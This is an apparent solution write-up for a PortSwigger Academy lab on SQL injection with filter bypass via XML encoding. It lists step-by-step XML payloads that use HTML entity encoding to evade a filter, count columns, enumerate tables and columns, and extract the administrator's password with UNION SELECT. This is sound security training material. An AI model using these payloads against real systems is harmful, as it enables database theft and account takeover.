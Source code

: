 # [Lab: SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

## Lab

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

## Solutions

1. capture request:

    ```http
    POST /product/stock HTTP/1.1
    Host: 0ae800bb043cba73c0a290b200fc0011.web-security-academy.net
    ...

    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
    ```

2. Check SQLi, html encode characters:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 O&#82; 1=1-&#45;</storeId></stockCheck>
    ```

    - result: ![dd37eee36aa924bade5fb8f0c777dbc7.png](../../../../../../_resources/dd37eee36aa924bade5fb8f0c777dbc7.png)
3. determining the number of columns:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 ORDER BY 1;</storeId></stockCheck>
    ```

    => response 892 units

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 ORDER BY 2;</storeId></stockCheck>
    ```

    => response 0 units
    => 1 column
4. get table name:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 UNIO&#78; SELEC&#84; TABLE_NAME FROM information_schema.tables;</storeId></stockCheck>
    ```

5. get column names of `users` table:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 UNIO&#78; SELEC&#84; COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = &apos;users&apos;</storeId></stockCheck>
    ```

6. get admin password:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 UNIO&#78; SELEC&#84; password FROM users WHERE username = &apos;administrator&apos;</storeId></stockCheck>
    ```

7. Login to admin account => Lab Solved
